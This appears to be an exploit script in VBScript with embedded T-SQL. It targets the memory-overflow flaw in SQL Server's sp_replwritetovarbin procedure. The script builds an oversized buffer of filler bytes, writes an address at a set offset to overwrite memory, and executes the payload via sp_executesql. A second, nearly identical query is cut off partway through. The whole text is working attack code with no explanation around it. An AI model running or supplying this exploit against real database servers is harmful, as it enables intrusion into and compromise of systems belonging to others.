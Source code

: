 // Take a look at the comments in T-SQL



On Error Resume Next

// change this
UserName = "r00t"
Password = "t00r"

// ########################################### FIRST QUERY
SQL = "DECLARE @buf NVARCHAR(4000),				"&_
"@val NVARCHAR(4),						"&_
"@counter INT							"&_
"SET @buf = '							"&_ 
"declare @retcode int,						"&_
"@end_offset int,						"&_
"@vb_buffer varbinary,						"&_
"@vb_bufferlen int						"&_  
"exec master.dbo.sp_replwritetovarbin 120, @end_offset output, @vb_buffer output, @vb_bufferlen output,''' "&_
"SET @val = CHAR(0x41)						"&_
"SET @counter = 0						"&_
"WHILE @counter &lt; 3020						"&_
"BEGIN								"&_
"  SET @counter = @counter + 1					"&_
"  IF @counter = 2900						"&_	 
"  BEGIN							"&_
"    SET @val =  CHAR(0x43)					"&_
"  END								"&_
"  ELSE IF @counter = 299					"&_
"  BEGIN							"&_
"    SET @val =  CHAR(0x42)					"&_
"  END								"&_
"  ELSE IF @counter = 300					"&_
"  BEGIN							"&_


"     /* First byte overwritten here. This is a random writable address */	"&_
"     SET @buf = @buf + CHAR(0x44) + char(0xc0) + char(0x4c) + CHAR(0x19) "&_
"     CONTINUE							"&_
"  END								"&_
"  SET @buf = @buf + @val					"&_
"END								"&_
"SET @buf = @buf + ''',''33'',''34'',''35'',''36'',''37'',''38'',''39'',''40'',''41'''   "&_
"EXEC master..sp_executesql @buf"							





// ########################################### SECOND QUERY
SQL2 = "DECLARE @buf NVARCHAR(4000),				"&_
"@val NVARCHAR(4),						"&_
"@counter INT							"&_
"SET @buf = '							"&_ 
"declare @retcode int,						"&_
"@end_offset int,						"&_
"@vb_buffer varbinary,						"&_
"@vb_bufferlen int						"&_  
"exec master.dbo.sp_replwritetovarbin 120, @end_offset output, @vb_buffer output, @vb_bufferlen output,''' "&_
"SET @val = CHAR(0x41)						"&_
"SET @counter = 0						"&_
"WHILE @counter &lt; 3097						"&_
"BEGIN								"&_
"  SET @counter = @counter + 1					"&_
"  IF @counter = 2900						"&_	 
"  BEGIN							"&_